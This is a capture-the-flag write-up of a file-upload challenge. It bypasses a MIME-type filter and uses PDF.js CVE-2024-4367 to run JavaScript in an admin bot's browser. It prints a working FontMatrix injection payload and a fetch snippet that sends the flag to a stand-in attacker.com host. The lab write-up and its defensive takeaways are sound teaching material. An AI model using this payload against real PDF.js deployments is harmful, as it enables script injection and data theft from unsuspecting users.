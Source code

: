 
# 🚀 **Mysterious File Upload Journey: Breaking PDF.js and Grabbing the Flag**

![Challenge Banner](https://media1.tenor.com/m/54mjjpuowCgAAAAd/ninjala-jane.gif)

### **Challenge Information**
- **Name:** Navigate a Mysterious File Upload Journey  
- **Challenge URL:** [http://172.206.89.197:9000/](http://172.206.89.197:9000/)  
- **Bot URL:** [http://172.206.89.197:9000/report](http://172.206.89.197:9000/report)  
- **Attachment:** [upload.zip](./upload.zip)  
- **Author:** [@S0nG0ku](https://twitter.com/s0ng0ku)  

---

## **📖 Introduction**
This writeup details how we explored a file upload challenge to bypass security filters and extract a flag from a restricted endpoint. Here's how the adventure unfolded:

1. Register on the platform.
2. Analyze the upload feature.
3. Exploit PDF.js to execute arbitrary JavaScript.
4. Retrieve the flag using the admin bot.

---

## **🕵️ Recon and Discovery**

### **1️⃣ Homepage**
The homepage presents a **login/register** feature and a basic upload interface.

![Homepage Screenshot](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*siGDgDwLDubjrv_6xkE5iQ.png)

### **2️⃣ Upload Feature**
Upon logging in, we access the **upload form**. The filter applied here is based only on **MIME type** validation, making it susceptible to tampering.

```html
<!-- Upload Filter in Source Code -->
if (file.mimeType === 'application/pdf') {
    // Allow upload
}
```

This weakness invites further exploration, but before rushing into bypasses, we check additional features.

---

## **⚙️ Understanding the Bot**
- **Behavior:** The admin bot visits **local URLs** shared through the application, verified using a **regex filter**.  
- **Access Scope:** The bot has privileged access to the `/flag` endpoint, which is restricted to **local IPs only (127.0.0.1)**.

---

## **💡 The Exploit Plan**
To retrieve the flag, we'll use the following approach:

1. **Upload a malicious PDF** containing JavaScript to access `/flag` and send its content to our external server.  
2. **Send the bot a link** to the malicious PDF file hosted on the challenge server.  
3. The bot will execute our JavaScript and exfiltrate the flag to us.

---

## **📜 Crafting the Malicious PDF**
The platform uses **PDF.js** for rendering uploaded PDF files. A known vulnerability, **CVE-2024-4367**, allows **arbitrary JavaScript execution** through the `FontMatrix` attribute.

### **Vulnerability Exploit**
The payload injects JavaScript by escaping parentheses in the `FontMatrix` field:
```javascript
/FontMatrix [1 2 3 4 5 (0\); fetch('/flag')
    .then(r => r.text())
    .then(f => location='https://attacker.com/?flag=' + encodeURIComponent(f))]
```

### **Steps to Create the PDF**
1. Use a PDF generation tool (e.g., [PDFEdit](https://pdfedit.cz/) or Python libraries like `fpdf`) to embed the exploit.
2. Ensure all parentheses are escaped to prevent premature interpretation.

---

## **🖥️ Exploiting the Bot**
1. Upload the malicious PDF file.
2. Grab the file's URL and modify it to point to `127.0.0.1:5000/view/<filename>` for local bot access.
3. Send the URL to the bot via the provided reporting feature.

```plaintext
POST /report
Content-Type: application/json

{
    "url": "http://127.0.0.1:5000/view/malicious.pdf"
}
```

4. Wait for the bot to visit the URL and execute the JavaScript.

---

## **🏁 Retrieving the Flag**
Once the bot executes the script, it fetches the flag from `/flag` and sends it to our server:
```javascript
fetch('/flag')
    .then(response => response.text())
    .then(flag => {
        location = `https://attacker.com/?flag=${encodeURIComponent(flag)}`;
    });
```

The flag will appear in your server logs, and in this case, it's:

```plaintext
AKASEC{PDF_1s_4w3s0m3_W1th_XSS_&&_Fr33_P4le5T1n3_r0t4t333d_loooool}
```

---

## **🎯 Key Takeaways**
1. **MIME Type Filters:** Always validate files using deeper inspection (e.g., content-based validation).
2. **Bot Exploits:** Bots with local access should have strict sandboxing to prevent malicious exploitation.
3. **PDF.js Vulnerabilities:** Always use the latest versions of libraries to patch known vulnerabilities.

---

## **📚 Resources**
- [PDF.js Documentation](https://mozilla.github.io/pdf.js/)
- [CVE-2024-4367 Details](https://cve.mitre.org/)
- [PDF Injection with JavaScript](https://codeanlabs.com/pdf-js-injection)
- [File Upload Security Best Practices](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)

---

## **🌈 Bonus: Make It Your Own!**
You can use this approach in Capture The Flag (CTF) competitions or educational scenarios to practice:
- **File upload bypass techniques.**
- **Exploiting vulnerable libraries.**
- **Exfiltration using JavaScript payloads.**

> **Disclaimer:** This writeup is for educational purposes only. Always ensure you have proper authorization before performing any security testing.

---
